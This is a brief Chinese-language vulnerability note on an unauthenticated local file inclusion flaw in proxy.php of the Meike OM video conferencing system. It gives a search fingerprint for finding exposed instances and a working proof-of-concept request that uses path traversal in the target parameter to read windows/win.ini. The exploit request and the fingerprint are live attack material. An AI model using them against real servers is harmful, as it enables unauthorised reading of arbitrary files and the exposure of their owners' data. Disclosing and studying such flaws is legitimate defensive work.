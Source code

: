 # 魅课 OM视频会议系统 proxy.php 文件包含漏洞

## 漏洞描述

魅课OM视频会议系统 proxy.php文件target参数存在本地文件包含漏洞。攻击者可借助该漏洞无需登录便可下载任意文件。

## 漏洞影响

```
魅课OM视频会议系统
```

## 网络测绘

```
app="OMEETING-OM视频会议"
```

## 漏洞复现

登录页面

![image-20220525153028849](./images/202205251530024.png)

验证POC

```
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

![image-20220525153105283](./images/202205251531338.png)